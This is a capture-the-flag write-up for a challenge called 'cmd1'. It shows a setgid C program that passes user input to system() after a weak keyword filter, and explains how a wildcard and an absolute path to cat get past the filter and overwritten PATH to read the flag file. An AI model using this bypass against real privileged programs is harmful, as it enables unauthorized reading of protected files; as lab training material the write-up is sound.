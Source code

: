 ```yaml
---
custom_edit_url: null
sidebar_position: 12
---
```


> Mommy! what is PATH environment in Linux?

## File properties

```
cmd1@ubuntu:~$ file ./cmd1
./cmd1: setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=38e83bafff424226079859e0fe26757437e79a2d, for GNU/Linux 3.2.0, not stripped
```

## Source code

```c title="cmd1.c"
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/thankyouverymuch");
    if(filter(argv[1])) return 0;
    setregid(getegid(), getegid());
    system( argv[1] );
    return 0;
}
```

Theprogram sets the `$PATH` environment variable to `/thankyouverymuch`, and checks if the user input contains the following:
  - `flag`
  - `sh`
  - `tmp`

If it does, the program returns early.

Otherwise, it executes the argument using `system()`.

### [`system`](https://man7.org/linux/man-pages/man3/system.3.html)

```c
int system(const char *command);
```

The `system()` function essentially executes the argument that is passed to it. 
So, the user's input will be executed by `system()`.

The easiest way to solve this challenge is to use wildcard (`*`) character.

We can simply `cat` out `fla*`, and since it does not get caught in any filter, we should be good.

```
cmd1@ubuntu:~$ ./cmd1 "cat fla*"
sh: 1: cat: not found
```

This is because the program overwrites the `$PATH` env variable.

Ideally this is what it looks like.

```
cmd1@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

When `cat` is run, each of paths are prepended to it once by one. 
Based on the location of `cat` in the system, that corresponding path will work.

Let's check where it is located.

```
cmd1@ubuntu:~$ which cat
/usr/bin/cat
```

Now that we know the location, we can easily provide the entire path in the argument, so that the `$PATH` env variable does not come into use.

```
cmd1@ubuntu:~$ ./cmd1 "/usr/bin/cat fla*"
PATH_environment?_Now_I_really_g3t_it,_mommy!
```

There are a TON of other way to solve this challenge.
